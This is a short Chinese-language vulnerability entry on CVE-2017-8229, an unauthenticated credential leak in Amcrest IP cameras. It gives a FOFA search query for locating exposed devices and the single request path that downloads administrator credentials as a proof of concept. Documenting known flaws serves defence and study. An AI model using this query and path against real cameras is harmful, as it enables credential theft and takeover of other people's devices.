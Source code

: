 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

<a-checkbox checked>Amcrest Technologies. Amcrest IP Camera Web all</a-checkbox></br>

## FOFA

<a-checkbox checked>"Amcrest"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645547044365-31c4c6ae-c9cd-4c34-88ce-1c31810a0ed8.png)

验证POC

```javascript
/current_config/Sha1Account1
```

![img](../../../.vuepress/public/img/1645547183330-ef08c3d4-1cb6-4e93-a70f-8ec772da2798.png)